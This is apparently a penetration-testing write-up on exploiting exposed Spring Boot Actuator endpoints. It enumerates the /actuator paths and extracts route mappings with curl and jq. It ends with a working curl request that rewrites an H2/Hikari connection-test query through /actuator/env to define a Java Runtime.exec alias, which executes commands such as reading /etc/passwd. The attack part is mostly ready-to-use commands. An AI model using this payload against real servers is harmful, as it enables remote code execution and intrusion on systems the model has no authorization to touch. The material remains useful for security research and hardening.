

# Spring Boot Actuator unauthorized access [XXE, RCE]

Environment attribute coverage and XStream deserialization caused RCE due to improper configuration of Spring Boot 2.x.  

####Actuator
Let's check if the actuator endpoint exists:

    GET http://_**vulnerable_host**_:9090/actuator

We don't need all of these. I trimmed out the relevant section into result.txt:  

- The target site has enabled unauthorized access to the env endpoint, the path is: http://1.2.3.4:9090/actuator/env
- The target site has enabled unauthorized access to the beans endpoint, the path is: http://1.2.3.4:9090/actuator/beans
- The target site has enabled unauthorized access to the configprops endpoint, the path is: http://1.2.3.4:9090/actuator/configprops
- The target site has enabled unauthorized access to the health endpoint, the path is: http://1.2.3.4:9090/actuator/health
- The target site has enabled unauthorized access to the info endpoint, the path is: http://1.2.3.4:9090/actuator/info
- The target site has enabled unauthorized access to the mappings endpoint, the path is: http://1.2.3.4:9090/actuator/mappings
- The target site has enabled unauthorized access to the metrics endpoint, the path is: http://1.2.3.4:9090/actuator/metrics

####Methods

Grab the mapping, and parse out the available methods if doing this "off of the cuffs". Although we have the available API methods from the docs or from the env/actuator path, we _can possibly_ find an API or application it's hosting.

Op:

    curl -s http://1.2.3.4:9090/actuator/mappings | jq -r '.contexts.application.mappings.dispatcherServlets.dispatcherServlet[].predicate'

Result:

The public qcm paths look interesting, but these won't work without auth. (Look at keycloak section for ~~abusing~~ researching ~*sic~ this part.)

####Environment
So an exposed H2 database and actuator/env endpoint, gives us what we need.

In the env, we're checking for `management.endpoints.web.exposure.include` to see if this is restricted or not  .

SPOILERS: - . Just wow. `"management.endpoints.web.exposure.include":{"value":"*  "`

_this only works if Vary: Access-Control-Request-Headers allows POST_
> thanks @spaceraccoon

    curl -X 'POST' \
        -H 'Content-Type: application/json' \
        --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'grep root /etc/passwd\');\"}' \
        'http://localhost:8080/actuator/env'
